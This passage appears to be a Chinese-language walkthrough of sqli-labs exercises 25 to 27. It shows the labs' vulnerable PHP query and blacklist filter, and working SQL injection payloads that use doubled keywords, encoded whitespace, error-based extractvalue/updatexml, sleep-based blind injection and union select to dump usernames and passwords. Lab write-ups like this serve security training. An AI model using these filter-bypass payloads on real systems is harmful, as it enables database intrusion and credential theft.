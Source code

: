 过滤了 or 和 and 可以采用 双写或者 && || 绕过

过滤注释 可以使用闭合绕过

过滤了空格 可以使用如下的符号来替代：

| 符号 | 说明          |
| ---- | ------------- |
| %09  | TAB 键 (水平) |
| %0a  | 新建一行      |
| %0c  | 新的一页      |
| %0d  | return 功能   |
| %0b  | TAB 键 (垂直) |
| %a0  | 空格          |

或者用括号代替空格

```
1'%26%26extractvalue(null,concat(0x7e,(select(group_concat(username,'~',passwoorrd))from(security.users)),0x7e))oorr'
```

payload

```
1'%0banandd%0bupdatexml(1,concat(0x7e,(select%0bgroup_concat(username,passwoorrd)from%0bsecurity.users)),1)%0banandd%0b'1'='1
```

## less-26a

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

闭合方式改了`')`

payload

```
')%0b||(select%0b1%0bfrom%0b(select(sleep(3)))aa)%0b||('1

')union%A0select(1),(select(group_concat(id,'~',username,'~',passwoorrd))from(security.users)),3
||('1
```

## less-27 过滤union select

```php
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);          //strip out /*
$id= preg_replace('/[--]/',"", $id);            //Strip out --.
$id= preg_replace('/[#]/',"", $id);               //Strip out #.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/select/m',"", $id);     //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/union/s',"", $id);      //Strip out union
$id= preg_replace('/select/s',"", $id);     //Strip out select
$id= preg_replace('/UNION/s',"", $id);      //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);     //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);      //Strip out Union
$id= preg_replace('/Select/s',"", $id);     //Strip out select
```